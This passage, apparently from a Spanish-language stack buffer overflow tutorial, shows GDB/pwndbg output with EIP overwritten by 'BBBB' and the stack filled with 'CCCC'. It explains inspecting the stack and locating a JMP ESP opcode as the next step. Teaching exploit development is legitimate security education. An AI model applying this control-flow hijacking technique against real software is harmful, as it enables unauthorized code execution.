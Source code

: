 ```
 ESI  0xffffd320 ◂— 0x43434343 ('CCCC')
 EBP  0x41414141 ('AAAA')
 ESP  0xffffd240 ◂— 0x43434343 ('CCCC')
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd240 ◂— 0x43434343 ('CCCC')
... ↓        7 skipped
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0x43434343 None
   2 0x43434343 None
   3 0x43434343 None
   4 0x43434343 None
   5 0x43434343 None
   6 0x43434343 None
   7 0x43434343 None
───────────────────────────────────────────────────────────────────────────────────
```

**Resultado esperado:** En GDB, verifica la pila (`stack`) para comprobar que los `CCCC` aparecen después del `EIP`. Usa este comando (`x/300wx $esp`)

Si ejecutamos `x/300wx $esp` para ver la información que hay en el pila vemos que nuestras `Cs` se están introduciendo al principio de la pila (`stack`), por lo que en este punto lo que debemos hacer es encontrar un `OpCode` el cual nos permita realizar un salto al `ESP`, es decir al principio de la pila.

```shell
x/300wx $esp
```

Info:

```
0xffffd240:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd250:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd260:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd270:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd280:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd290:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2a0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2b0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2c0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2d0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2e0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd2f0:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd300:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd310:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd320:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd330:     0x43434343      0x43434343      0x43434343      0x43434343
0xffffd340:     0x43434343      0x43434343      0x43434343      0x43434343
```